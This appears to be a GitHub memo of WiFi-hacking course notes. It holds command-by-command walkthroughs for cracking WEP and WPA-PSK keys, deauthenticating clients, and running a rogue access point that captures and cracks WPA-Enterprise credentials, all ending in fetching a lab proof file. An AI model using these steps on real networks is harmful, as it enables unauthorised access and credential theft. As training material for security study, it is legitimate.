 # WiFi_Hacking_Memo
Quick notes taken from the course around WiFi hacking
## WEP
1.	Place the wireless interface in monitor mode using the Airmon-ng tool
```
sudo airmon-ng start wlan0
```
2.	Discover nearby WiFi networks using Airodump-ng tool
```
sudo airodump-ng wlan0mon --wps
```
3.	Perform a targeted scan with the AP BSSID and channel discovered from step 2, and redirect the capture to a file named ‘WEP’
```
sudo airodump-ng -c 11 -b XX:XX:XX:XX:XX:XX -w WEP wlan0mon
```
4.	When the above command in step 3 shows at least 1 connected station to the AP, open a new terminal tab and sent ARP replay packets to the said station using Aireplay-ng, by specifying the targeted station ID
```
sudo aireplay-ng -3 -b XX:XX:XX:XX:XX:XX -h XX:XX:XX:XX:XX:XX wlan0mon
```
5.	Back on the previous tab, where Airodump-ng is still running and capturing traffic, the tool should have captured the handshake successfully. Stop Airodump-ng by pressing the CTRL + C keys and stop the monitor mode for the interface
```
sudo airmon-ng stop wlan0
```
6.	Use Aircrack-ng to crack the key from the output file created by Airodump-ng
```
sudo aircrack-ng WEP01.cap
```
7.	Once the key is cracked by Aircrack-ng, use iwconfig to connect the compromised wireless network
```
sudo iwconfig wlan0 essid <SSID_name> key <KEY>
```
8.	Refresh the DHCP client configuration and obtain an IP from the AP
```
sudo dhclient wlan0
```
9.	Get the content of the proof.txt file
```
curl http://192.168.1.1/proof.txt
```
## WPA-PSK (Personal)
1.	Place the wireless interface in monitor mode using Airmon-ng
```
sudo airmon-ng start wlan0
```
2.	Discover nearby WiFi networks using Airodump-ng
```
sudo airodump-ng wlan0mon
```
3.	Perform a targeted scan with the AP BSSID and channel discovered from step 2, and redirect the capture to a file named ‘PSK’
```
sudo airodump-ng --bssid XX:XX:XX:XX:XX:XX --channel 8 --write PSK wlan0mon
```
4.	When the command in step 3 shows at least 1 connected station to the AP, open a new terminal tab and send deauth packets (5) to the said station(s) using Aireplay-ng
```
aireplay-ng -0 5 -a XX:XX:XX:XX:XX:XX wlan0mon
```
5.	Back on the previous tab, where Airodump-ng is still running and capturing traffic, the tool should have captured the handshake successfully, from the deauthenticated client which reconnected. Stop Airodump-ng by pressing the CTRL + C keys and stop the monitor mode for the interface
```
sudo airmon-ng stop wlan0
```
6.	Use Aircrack-ng to crack the key from the output file created by Airodump-ng, with a wordlist specific to WPA attacks
```
sudo aircrack-ng PSK-01.cap -w /usr/share/wordlists/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt
```
7.	When the key is cracked by Aircrack-ng, use wpa_passphrase to create a configuration file to connect the wireless network
```
wpa_passphrase <SSID_name> <KEY> > wpa.conf
```
8.	Connect to the WiFi network using wpa_supplicant with the configuration generated in step 7
```
wpa_supplicant -B -i wlan0 -c ./wpa.conf
```
9.	Refresh the DHCP client configuration and obtain an IP from the AP using dhclient
```
sudo dhclient wlan0
```
10.	Obtain the content of proof.txt
```
curl http://192.168.1.1/proof.txt
```
## WPA-MGT (Enterprise)
1.	Place the wireless interface in monitor mode using the Airmon-ng
```
sudo airmon-ng start wlan0
```
2.	Discover nearby WiFi networks using Airodump-ng
```
sudo airodump-ng wlan0mon
```
3.	Perform a targeted scan with the AP BSSID and channel discovered from step 2, and redirecting the capture to an output file named ‘mgt'
```
sudo airodump-ng -c 10 -w mgt wlan0mon
```
4.	When the above command in step 3 shows at least 1 connected station to the AP, open a new terminal tab and send a deauth packet to the said station/client using Aireplay-ng, by specifying the targeted station ID
```
sudo aireplay-ng -0 1 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```
5.	Back on the previous tab, where Airodump-ng is still running and capturing traffic, the tool should have captured the handshake successfully, from the deauthenticated client which reconnected. Stop Airodump-ng by pressing the CTRL + C keys and stop the monitor mode for the interface
```
sudo airmon-ng stop wlan0
```
6.	Since freeradius is already installed on the attacker machine, simply make sure to have certificates in the right place, those will be needed for the hostadp-mana tool used in step 8
```
cd /etc/freeradius/3.0/certs
make
```
7.	Since hostapd-mana is already installed, simply create the configuration file we’ll use, as referenced in [mana.conf](https://github.com/ob1lan/WiFi_Hacking_Memo/blob/main/mana.conf), along with the EAP user file as referenced in [mana.eap.user](https://github.com/ob1lan/WiFi_Hacking_Memo/blob/main/mana.eap.user)

8.	Use hostapd-mana with the configuration files created in step 7 to create a rogue AP
```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
9.	After the hostadp-mana tools captured at least 1 authenticated client, stop the capture and verify the content of hostapd.credout to check the captured credentials and get the relevant asleap command to crack them
```
cat /tmp/hostapd.credout
```
10.	Execute the asleap tool command as obtained in step 9 to crack the captured credentials, with the password.lst wordlist from john’s collection
```
asleap -C XX:XX:XX:XX:XX:XX:XX:XX -R XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX -W /usr/share/john/password.lst
```
11.	When asleap is done cracking the credentials, create the mgt.conf file with the above content reflecting the cracked credentials, this file will be used in step 12 to connect the network using with wpa-supplicant
```
network={
        scan_ssid=1 
        eap=PEAP 
        ssid="Bilbos" 
        key_mgmt=WPA-EAP 
        identity="Bilbos\brandybuck" 
        password="Margaret" 
        phase1="peaplabel=O" 
        phase2="auth=MSCHAPV2"
}
```
12.	Connected to the WiFi network using wpa_supplicant with the configuration generated in step 11
```
wpa_supplicant -B -i wlan0 -c ./mgt.conf
```
13.	Refresh the DHCP client configuration and obtain an IP from the AP
```
sudo dhclient wlan0
```
14.	Obtain the content of the proof.txt file
```
curl http://192.168.1.1/proof.txt
```
